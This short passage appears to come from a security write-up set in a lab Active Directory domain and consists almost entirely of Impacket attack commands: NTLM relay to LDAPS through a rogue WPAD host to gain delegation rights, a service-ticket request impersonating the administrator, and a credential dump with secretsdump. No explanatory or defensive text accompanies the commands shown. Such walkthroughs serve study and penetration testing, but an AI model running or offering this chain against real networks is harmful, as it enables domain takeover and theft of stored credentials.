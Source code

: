 ```
python3 ntlmrelayx.py -wh evilwpad -t ldaps://dc2016-2.mcafeelab.local --delegate-access
```  

<img src="/images/2021-02-02/ressourcedelegation.png">  

```
getST.py -spn cifs/WIN10X64.mcafeelab.local mcafeelab.local/GCTCRVBY\$ -impersonate administrator  
export KRB5CCNAME=administrator.ccache  
secretsdump.py -k -no-pass win10x64.mcafeelab.local  
```  
